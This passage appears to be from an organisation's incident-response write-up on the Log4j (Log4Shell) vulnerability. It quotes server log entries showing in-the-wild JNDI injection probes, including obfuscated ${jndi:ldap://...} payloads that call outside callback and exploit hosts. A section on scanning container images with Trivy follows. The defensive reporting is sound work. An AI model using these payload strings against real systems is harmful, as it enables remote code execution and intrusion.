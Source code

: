 Looking at more attempts, we started to see probing attempts using a 3rd party service using [Interactsh](https://github.com/projectdiscovery/interactsh).

```bash
16/Dec/2021:06:11:07 +0000] "GET /?x=${jndi:ldap://${hostName}.c6s8ou15g22ssten8u8gcg7po6oyo6dj6.interactsh.com/a} HTTP/1.1" 302 0 "${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.c6s8ou15g22ssten8u8gcg7po6oyo6dj6.interactsh.com}" "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.c6s8ou15g22ssten8u8gcg7po6oyo6dj6.interactsh.com}" 685 0.015 [products-developer-portal-8080] 100.98.133.224:8080 0 0.014 302 548d1132926fa0bc9904e12523d2f250 [${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.c6s8ou15g22ssten8u8gcg7po6oyo6dj6.interactsh.com}, 173.249.19.100]
```

We see a lot of requests calling DNS as a mechanism to detect if a system is vulnerable.

```bash
[2021-12-14T22:57:36.722Z] "GET / HTTP/1.1" 307 - 0 0 0 - "51.105.55.17" "/${jndi:ldap://45.83.193.150:1389/Exploit}" "7c9223d6-2c81-491d-8564-10742cc90a9c" "54.75.196.220" "-"
```

In our Tokyo region, we started to see a lot of requests from `x00.it` domain.

```bash 
[14/Dec/2021:17:37:59 +0000] "GET /?id=%24%7Bjndi%3Aldap%3A%2F%2Fdivd-0c1679670abeeb68eeabd98981713eea_%24%7Bdate%3AYYYYMMddHHmmss%7D_https_id.log4jdns.x00.it%2F%7D&page=%24%7Bjndi%3Aldap%3A%2F%2Fdivd-0c1679670abeeb68eeabd98981713eea_%24%7Bdate%3AYYYYMMddHHmmss%7D_https_page.log4jdns.x00.it%2F%7D&search=%24%7Bjndi%3Aldap%3A%2F%2Fdivd-0c1679670abeeb68eeabd98981713eea_%24%7Bdate%3AYYYYMMddHHmmss%7D_https_search.log4jdns.x00.it%2F%7D HTTP/1.1" 401 39 "${jndi:ldap://divd-0c1679670abeeb68eeabd98981713eea_${date:YYYYMMddHHmmss}_https_Referer.log4jdns.x00.it/}" "${jndi:ldap://divd-0c1679670abeeb68eeabd98981713eea_${date:YYYYMMddHHmmss}_https_User-Agent.log4jdns.x00.it/}" 4496 0.255 [monitoring-mki-lab-grafana-80] 100.115.164.63:3000 39 0.001 401 d7fa702ee8cc73793707ca6720c57639 [194.5.73.6]
```

In the coming weeks we will continue to monitor the probes across our public infrastructure to see how they evolve.

# Monday

## Docker Vulnerability Scans

Next, we wanted to ensure there was not an application running in our Kubernetes clusters with a vulnerable version of Log4j. We know from [this resource](https://github.com/cisagov/log4j-affected-db) that there are many open source applications that are vulnerable. To ensure we are not running a tool that is vulnerable, we used Kubernetes API with [kubectl](https://github.com/kubernetes/kubectl) and [Trivy](https://github.com/aquasecurity/trivy), a scanner for vulnerabilities in container images.

First, we built a small POC to ensure that Trivy can identify the CVE-2021-44228.

```bash 
❯❯❯ brew install aquasecurity/trivy/trivy
❯❯❯ trivy image birdyman/log4j2-demo:1.0.0-12 | grep CVE-2021-44228 
| org.apache.logging.log4j:log4j-api                     | CVE-2021-44228   | CRITICAL | 2.10.0            | 2.15.0                         | Remote code injection in Log4j                                                  |
```
